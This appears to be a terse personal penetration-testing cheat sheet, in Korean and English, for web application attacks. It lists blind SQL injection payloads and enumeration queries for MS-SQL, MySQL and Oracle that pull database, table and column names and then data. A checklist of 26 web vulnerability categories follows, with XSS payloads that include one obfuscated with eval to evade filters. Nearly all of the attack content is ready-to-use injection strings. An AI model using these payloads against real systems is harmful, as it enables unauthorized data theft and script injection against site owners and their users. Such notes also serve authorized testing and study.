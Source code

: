 <h2>[MS-SQL]</h2> <br>
# Shape <br>
select * from board where Title='//' and substring((query), 1, 1) < 'a'--<br>
???' and substring((query), 1, 1) < 'a'--<br>
<br>
# get DB NAME <br>
db_name() <br>
<br>
# Get Table name <br>
select top 1 name from sysobjects where xtype='U' <br>
<br>
# Get Column name <br>
select top 1 column_name from information_schema.columns where table_name = '[Table Name]' <br>
<br>
# Get Data <br>
select top 1 [Column Name] from [Table Name] <br>
<br>
<br>
<br>
<h2>[MySQL]</h2> <br>
???' and ascii(substring((query), 1, 1)) > 'a'# <br>
<br>
# Get Table Name <br>
select table_name from information_schema.tables where table_type='base table' limit 0,1 <br>
                                                                                     ㄴ> 0번 째 테이블 <br>
  
-----------------------------------------------------------------------------------
<h2>[Oracle]</h2><br>

and (ascii(SUBSTR(select username from all_users where rownum = 1),1,1))) > 1

select DISTINCT owner FROM all_tables;

select table_name from all_tables;

select column_name from all_tab_columns where table_name='[table name]';


Row 갯수 파악

Limit 기능
select * from (select rownum rnum, users.* from users) A where A.rnum between 1 and 3

-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF<br>
`<img src="#" onmouseover="alert(1);">`<br>
`<img src="#" onerror="alert(1);">`<br>
`<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`<br>
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
